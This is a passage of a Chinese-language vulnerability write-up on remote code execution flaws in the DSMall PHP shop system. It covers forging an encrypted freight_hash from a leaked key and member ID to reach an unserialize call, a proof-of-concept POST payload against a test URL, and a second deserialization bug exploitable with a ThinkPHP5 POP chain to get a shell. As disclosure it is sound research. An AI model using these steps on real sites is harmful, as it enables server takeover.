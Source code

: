 调用栈

—-&gt;homecontrollerBuy.phpchange_addr()—-&gt;commonlogicBuy.phpchangeAddr()—-&gt;&gt;commonlogicBuy.phpbuyDecrypt()

[![](https://p1.ssl.qhimg.com/t0144fa7f140ea3f4dd.jpg)](https://p1.ssl.qhimg.com/t0144fa7f140ea3f4dd.jpg)

漏洞利用：<br>
通过分析我们知道<br>
Unserizlize(base64_decode(ds_decrypt(strval($string),sha1(md5($member_id . ‘&amp;’ . MD5_KEY)), 0)))<br>
$key=sha1(md5($member_id . ‘&amp;’ . MD5_KEY))<br>
$_POST[freight_hash]=ds_encrypt(strval(base64_encode(serialize($a))),$key);

A) MD5_KEY 是一个常量，从源码中获取<br>
B) $member_id可以通过文件上传文件接口dsmall506/public/index.php?s=home/Snsalbum/swfupload 获取

[![](https://p1.ssl.qhimg.com/t01d1e2ac53771bb33c.jpg)](https://p1.ssl.qhimg.com/t01d1e2ac53771bb33c.jpg)

[![](https://p2.ssl.qhimg.com/t0146985162b523f502.jpg)](https://p2.ssl.qhimg.com/t0146985162b523f502.jpg)

Poc:

[![](https://p4.ssl.qhimg.com/t01d73786bfd442fb74.jpg)](https://p4.ssl.qhimg.com/t01d73786bfd442fb74.jpg)

Url:[http://test.com/dsmall506/public/index.php?s=home/Buy/change_addr](http://test.com/dsmall506/public/index.php?s=home/Buy/change_addr)<br>
Post:city_id=1&amp;area_id=1&amp;freight_hash=se1atRqVpfbQo1INkwRgOXeQIUpFfKnR5lnhQVmjUhnYB9v1NU7JxIxWFRYDA6ihAavR_QiUcQ8

[![](https://p3.ssl.qhimg.com/t011530e8ada76badde.jpg)](https://p3.ssl.qhimg.com/t011530e8ada76badde.jpg)

[![](https://p0.ssl.qhimg.com/t0154850a235cff4c48.jpg)](https://p0.ssl.qhimg.com/t0154850a235cff4c48.jpg)

### <a class="reference-link" name="%E8%BF%9C%E7%A8%8B%E4%BB%A3%E7%A0%81%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9E%E5%9B%9B%EF%BC%9A"></a>远程代码执行漏洞四：

利用条件：无<br>
公共模块modelCart.php getCartList和getCartNum<br>
方法中存在可以被用户控制的反序列化操作，利用thinkphp5的代码执行反序列化pop chain 可以往目标服务器写文件getshell.<br>
applicationcommonmodelCart.php<br>
getCartList 方法反序列化

[![](https://p0.ssl.qhimg.com/t0123c78990247d075f.jpg)](https://p0.ssl.qhimg.com/t0123c78990247d075f.jpg)

getCartNum反序列化

[![](https://p3.ssl.qhimg.com/t01aa5ab2f8648a4363.jpg)](https://p3.ssl.qhimg.com/t01aa5ab2f8648a4363.jpg)
